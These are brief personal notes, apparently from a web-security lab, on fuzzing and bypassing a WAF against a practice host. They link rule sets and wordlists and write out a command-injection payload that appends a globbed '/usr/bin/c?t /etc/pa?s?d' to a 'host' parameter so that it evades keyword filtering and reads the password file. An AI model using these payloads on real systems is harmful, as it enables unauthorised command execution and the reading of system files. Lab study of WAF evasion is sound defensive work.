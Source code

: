 http://3.110.48.40/fuzz.php?input=0

this website simulates how WAF works

https://github.com/coreruleset/coreruleset/tree/main/rules

creating a fuzzing wordlists for a url

https://github.com/maverickNerd/wordlists

# bypassing WAF

http://3.110.48.40/index.php

cat /etc/pa??wd

http://3.110.48.40/index.php?host=google.com&&/usr/bin/c?t+/etc/pa?s?d

finally fuzz